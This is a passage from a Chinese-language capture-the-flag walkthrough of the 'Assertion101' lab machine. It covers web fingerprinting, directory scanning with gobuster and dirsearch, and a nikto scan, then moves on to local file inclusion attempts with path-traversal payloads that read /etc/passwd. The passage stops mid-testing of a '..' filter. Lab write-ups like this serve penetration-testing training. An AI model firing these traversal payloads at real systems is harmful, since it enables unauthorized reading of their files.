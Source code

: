 #### 80-HTTP端口的信息收集

访问 `http://192.168.151.94:80` 像一个`CMS`，尝试指纹收集开始<br/> 像是一个健身网站

##### 信息收集-网站指纹
1.  `┌──(root㉿Kali)-[/home/bachang/Assertion101]` 1.  `└─# whatweb http://192.168.151.94:80` 1.  `http://192.168.151.94:80 [200 OK] Apache[2.4.29], Bootstrap, Country[RESERVED][ZZ], Email[Colorlib.info@gmail.com], Frame, HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[192.168.151.94], JQuery[3.3.1], Script, Title[Assertion], X-UA-Compatible[ie=edge]` 
标题 `Assertion` 翻译是断言，可能会有一定帮助。（不是提示就是用户之类的）

##### 漏洞利用-网站指纹
1.  `searchsploit Assertion` 
尝试搜索，不太对劲

##### 信息收集-HTML隐藏信息查看
1.  `# 包括文章中是否写明一些敏感信息` 1.  `curl http://192.168.151.94:80` 
很多的`js`没什么信息

##### 信息收集-目录扫描

###### 信息收集-目录扫描初步
1.  `# 用两个扫描器进行扫描，更加的谨慎一些` 1.  `dirsearch -u http://192.168.151.94:80 -x 302,403,404` 1.  `dirb http://192.168.151.94:80` 
<br/> 因为扫出了目录，深层次的扫描待选
1.  `信息收集-目录扫描(后缀)` 1.  `信息收集-目录扫描(深度/大字典)` 1.  `信息收集-目录扫描(深度/大字典后缀)` 
##### 信息收集-目录访问
1.  `# -t 指定线程 -x 添加后缀扩展名 -k 禁用ssl` 1.  `gobuster dir -u http://192.168.151.94:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x .html,.php,.zip -k &gt; gobuster.txt` 
##### 漏洞探测-nikto扫描

同时试试扫描器
1.  `nikto -h http://192.168.151.94:80` 
没发现什么大问题

##### 文章信息查看

有时候文章内部也具有一些提示滴<br/> 戳了一下`about`发现目录发现变化，出现了传参

### 漏洞利用-getwebshell

#### LFI测试

看见传参我可兴奋了，首先尝试相对路径的文件读取
1.  `http://192.168.151.94/index.php?page=about/../../../../etc/passwd` 
`Not so easy brother!`没有这么简单，这是提示？还是嘲讽/(ㄒoㄒ)/

<br/> 那么思路应该是正确的<br/> 尝试一下相对路径文件读取
1.  `http://192.168.151.94/index.php?page=/etc/passwd` 
`File does not exist`文件不存在说明应该相对路径？

<br/> 尝试远程文件加载
1.  `http://192.168.151.94/index.php?page=http://www.baidu.com` 
`File does not exist`
1.  `http://192.168.151.94/index.php?page=../` 1.  `http://192.168.151.94/index.php?page=/../` 1.  `http://192.168.151.94/index.php?page=././././` 1.  `http://192.168.151.94/index.php?page=%2F..%2F` 
尝试了各种，发现的问题是好像对`..`进行了过滤捏<br/>`.`好像没有`url`编码

